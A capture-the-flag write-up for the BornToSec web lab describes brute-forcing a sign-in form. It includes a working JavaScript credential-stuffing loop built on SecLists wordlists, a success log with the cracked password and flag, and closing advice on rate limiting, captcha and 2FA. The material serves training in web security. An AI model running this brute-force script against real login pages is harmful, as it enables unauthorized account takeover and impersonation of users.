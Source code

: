 # Sign in form Bruteforce

## How we found the breach

On the page `http://IP/?page=signin` we can find the sign in form, it takes a username and a password.

After hacking into the server database we found several user's usernames in database.

To see how we've scanned the data please look at:

[SQL injection on members table explanations →](../../sql_injection_members_table/Ressources/Explanations.md)

```js
// Only surname
"me", "GetThe",
// Surname + First name
"GetTheFlag", "meone", "metwo", "methree",
```

Also after scanning the whole database we did not found any password columns in any tables.

This is why we went for the bruteforce option, even more when there's not visible protection about it after several attempts.

### The Bruteforce script

We will use the following password and usernames dataset for the form inputs value:

- [usernames →](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
- [passwords →](https://github.com/danielmiessler/SecLists/blob/master/Passwords/darkweb2017-top1000.txt)

We will then hit the endpoint below with all the possibilities until the server returns an authenticated page.

```js
`http://IP/?page=signin&username=${username}&password=${password}&Login=Login#`
```

#### The main logic

```js
  await Promise.all(usernameCollection.map(async username => {
        for (const password of passwordCollection) {
            try {
                const endpointToHit = getEndpoint({ username, password });
                const response = await fetch(endpointToHit);
                const renderedPage = await response.text()
                const attemptFailed = renderedPage.includes(BAD_AUTH_ERROR_IMAGE)

                // In case of wrong authentication attempt the following image is rendered by the server
                // The Status code stays 200
                // <img src="images/WrongAnswer.gif" alt=""> 
                if (attemptFailed) {
                    console.log(`FAILURE for pair: username=${username} password=${password}`)
                    continue
                } else {
                    console.log(`SUCCESS for pair: username=${username} password=${password}`)
                    console.log({ renderedPage })
                    console.log('_'.repeat(10))
                    break;
                }

            } catch (e) {
                console.log(`Unknown error on attempt for username=${username} password=${password}`)
                continue
            }
        }
    }))
```

Run the script using (do not forget to install the dependencies before):
```bash
node script.js
```

After running the script, it leads to a successful attempt for all the concurrent users on the 95th password: `shadow`.
Indeed the username is not mandatory, filling the password input with `shadow` is enough the retrieve the flag from the server.

#### Log snippet

```zsh
# ...
FAILURE for pair: username=wil password=696969
FAILURE for pair: username=admin password=letmein
FAILURE for pair: username=metwo password=696969
FAILURE for pair: username=methree password=696969
FAILURE for pair: username=meone password=696969
FAILURE for pair: username=GetThe password=696969
FAILURE for pair: username=GetTheFlag password=696969
SUCCESS for pair: username=wil password=shadow
{
  renderedPage: '<!DOCTYPE HTML>\n' +
    '<html>\n' +
    '\t<head>\n' +
    '\t\t<title>BornToSec - Web Section</title>\n' +
    '\t\t<meta http-equiv="content-type" content="text/html; charset=utf-8" />\n' +
    '\t\t<meta name="description" content="" />\n' +
    '\t\t<meta name="keywords" content="" />\n' +
    '\t\t<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->\n' +
    '\t\t<script src="js/jquery.min.js"></script>\n' +
    '\t\t<script src="js/skel.min.js"></script>\n' +
    '\t\t<script src="js/skel-layers.min.js"></script>\n' +
    '\t\t<script src="js/init.js"></script>\n' +
    '\t\t<noscript>\n' +
    '\t\t\t<link rel="shortcut icon" type="image/x-icon" href="/favicon.ico" />\n' +
    '\t\t\t<link rel="icon" type="image/x-icon" href="favicon.ico" />\n' +
    '\t\t\t<link rel="stylesheet" href="css/skel.css" />\n' +
    '\t\t\t<link rel="stylesheet" href="css/style.css" />\n' +
    '\t\t\t<link rel="stylesheet" href="css/style-xlarge.css" />\n' +
    '\t\t</noscript>\n' +
    '\t</head>\n' +
    '\t<body class="landing">\n' +
    '\t\t<!-- Header -->\n' +
    '\t\t<header id="header" >\n' +
    '\t\t\t\t\t\t\t\t<a href=http://192.168.56.101><img src=http://192.168.56.101/images/42.jpeg height=82px width=82px/></a>\n' +
    '\t\t\t\t\t\t\t\t<nav id="nav">\n' +
    '\t\t\t\t\t<ul>\n' +
    '\t\t\t\t\t\t<li><a href="index.php">Home</a></li>\n' +
    '\t\t\t\t\t\t<li><a href="?page=survey">Survey</a></li>\n' +
    '\t\t\t\t\t\t<li><a href="?page=member">Members</a></li>\n' +
    '\t\t\t\t\t</ul>\n' +
    '\t\t\t\t</nav>\n' +
    '\t\t\t</header>\n' +
    '\n' +
    '\t\t<!-- Main -->\n' +
    '\t\t\t<section id="main" class="wrapper">\n' +
    '\t\t\t\t<div class="container" style="margin-top:75px">\n' +
    '<center><h2 style="margin-top:50px;">The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 </h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>\t\t\t\t</div>\n' +
    '\t\t\t</section>\n' +
    '\t\t<!-- Footer -->\n' +
    '\t\t\t<footer id="footer">\n' +
    '\t\t\t\t<div class="container">\n' +
    '\t\t\t\t\t<ul class="icons">\n' +
    '\t\t\t\t\t\t<li><a href="index.php?page=redirect&site=facebook" class="icon fa-facebook"></a></li>\n' +
    '\t\t\t\t\t\t<li><a href="index.php?page=redirect&site=twitter" class="icon fa-twitter"></a></li>\n' +
    '\t\t\t\t\t\t<li><a href="index.php?page=redirect&site=instagram" class="icon fa-instagram"></a></li>\n' +
    '\t\t\t\t\t</ul>\n' +
    '\t\t\t\t\t<ul class="copyright">\n' +
    '\t\t\t\t\t\t<a href="?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"><li>&copy; BornToSec</li></a>\n' +
    '\t\t\t\t\t</ul>\n' +
    '\t\t\t\t</div>\n' +
    '\t\t\t</footer>\n' +
    '\t</body>\n' +
    '</html>\n' +
    '\n'
}
__________
# ...
```

## How to exploit the breach

From there we could perform any operation we want inside the application, authenticated as the hacked user.

For example for mailBox account we could send emails impersonating the hacked user.

And overall we could even change the user's password depending on the application security rigor.

## How to avoid the breach

Several solution or good practices exist, such as limiting the amount of request from the same IP or adding a recaptcha usage on the form.

[2FA](https://en.wikipedia.org/wiki/Multi-factor_authentication) authentication such a google Authenticator, requesting the user to validate it's identity on one of his other devices.
